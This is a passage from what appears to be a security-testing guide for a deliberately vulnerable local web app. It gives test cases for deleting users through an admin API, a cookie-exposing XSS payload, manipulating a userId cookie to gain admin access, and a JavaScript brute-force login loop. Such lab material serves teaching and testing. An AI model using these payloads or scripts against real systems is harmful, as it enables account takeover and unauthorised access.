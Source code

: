 **Test Case - Delete Users:**
```javascript
fetch('http://localhost:5000/api/admin/user/3', {
  method: 'DELETE',
  credentials: 'include'
}).then(r => r.json()).then(console.log)
```

---

### 7. Session Hijacking

**Cookie Theft via XSS**

Combining XSS with cookie theft allows attackers to impersonate victims.

**Test Case:**
- Inject in profile: `<img src=x onerror="alert(document.cookie)">`
- When admin views profile, session cookie is exposed
- Attacker can use this cookie to impersonate the admin

**Manual Cookie Manipulation:**
- F12 → Application → Cookies
- Change `userId` value to `1` (admin)
- Refresh page
- Result: Potential admin access

---

### 8. Brute Force Attack

**Password Guessing**

Absence of rate limiting allows unlimited login attempts.

**Test Case:**
```javascript
const passwords = ['admin', 'admin123', 'password', '123456'];

async function bruteForce() {
  for (let pwd of passwords) {
    const response = await fetch('http://localhost:5000/api/login', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ username: 'admin', password: pwd })
    });
    const data = await response.json();
    if (data.message === 'Login successful') {
      console.log('Found password:', pwd);
      break;
    }
  }
}
bruteForce();
```

---